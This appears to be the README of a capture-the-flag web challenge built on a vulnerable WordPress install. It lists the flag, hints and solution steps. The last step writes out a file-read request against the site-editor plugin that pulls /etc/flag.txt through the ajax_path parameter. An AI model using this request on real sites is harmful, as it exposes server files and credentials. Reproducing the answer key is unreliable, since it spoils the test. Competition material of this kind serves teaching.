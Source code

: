 
## Problem

Just another exposed web server.  You can find the flag in /etc/flag.txt.  NOTE:  NO TOOLS ARE REQUIRED FOR THIS CHALLENGE!

## Flag
acsc18{StillHaventPatched}  (This is the flag that they will have to enter.  Please use this format)

## Category
Web Exploit

## Hints
1. Wordpress gets lots of extra functionality from the plug-ins a site might have installed
1. A number of websites track vulnerabilities associated with these plugins and other software
1. The site-editor plugin has a lot of power over Wordpress

## Steps
1. A look at the page source reveals a plugin called "site-editor"
1. Looking at https://www.exploit-db.com/exploits/44340/ gives the details of the exploit
1. http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/flag.txt


## Resources Required
* Web server
* MySQL server

###Note:  Must use the docker-compose function to get this to work.  Once it's up and running, navigate to installer.php to finish setup and the disable/reenable all plugins.
